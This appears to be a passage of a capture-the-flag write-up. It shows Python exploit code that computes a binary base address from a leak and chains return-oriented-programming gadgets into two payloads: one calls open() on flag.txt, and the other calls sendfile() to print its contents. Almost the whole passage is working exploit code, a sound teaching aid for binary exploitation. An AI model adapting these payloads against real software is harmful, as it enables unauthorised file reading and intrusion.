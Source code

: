 ```python
BINARY_BASE = int(addr_leak.strip(), 16) - BINARY_OFFSET # <- Base address calc

print('BIN BASE LEAK:', hex(BINARY_BASE))
print('VULN:', hex(BINARY_BASE + VULN_FUNC))

print('PROG OUT:', s.readline())
```

Afterwards the first payload can be constructed (notice how every address is offset by the base address of the binary!):
```python
payload = b'A' * 72 # <- Padding until saved %rip, found by trial and error

# First we call open()
payload += p64(BINARY_BASE + GDGT_POP_RDI) # first arg -> filename
payload += p64(BINARY_BASE + STR_FLAGTXT) # set to "flag.txt"

payload += p64(BINARY_BASE + GDGT_POP_RSI_POP_R15) # second arg -> flags
payload += p64(0x0) # 0 -> O_RDONLY
payload += p64(0xdeadbeef) # garbage for r15

payload += p64(BINARY_BASE + GDGT_POP_RDX) # third arg -> mode
payload += p64(0x0) # no mode

payload += p64(BINARY_BASE + GDGT_POP_RAX) # rax contains syscall number
payload += p64(2) # 2 is open()

payload += p64(BINARY_BASE + GDGT_SYSCALL) # perform syscall

payload += p64(BINARY_BASE + VULN_FUNC) # return to vuln()
```

Later, second payload can be constructed and sent during the second call to the `vuln()` function:
```python
# afterwards call sendfile()
payload = b'A' * 72

payload += p64(BINARY_BASE + GDGT_POP_RDI) # first arg -> out_fd
payload += p64(1) # stdout

payload += p64(BINARY_BASE + GDGT_POP_RSI_POP_R15) # second arg -> in_fd
payload += p64(3) # will most likely be 3 after open()
payload += p64(0xdaedbeef)

payload += p64(BINARY_BASE + GDGT_POP_RDX) # third arg -> offset
payload += p64(0)

payload += p64(BINARY_BASE + GDGT_POP_R10) # third arg -> count
payload += p64(100)

payload += p64(BINARY_BASE + GDGT_POP_RAX) # rax contains syscall number
payload += p64(40) # 40 is sendfile

payload += p64(BINARY_BASE + GDGT_SYSCALL) # perform syscall

payload += p64(BINARY_BASE + VULN_FUNC) # return to vuln()

print('PROG OUT:', s.readuntil(b"Please authenticate >>>\n"))
s.writeline(b'test')

print('PROG OUT:', s.read())
print('SENDING PAYLOAD2:', payload)
s.writeline(payload)

```
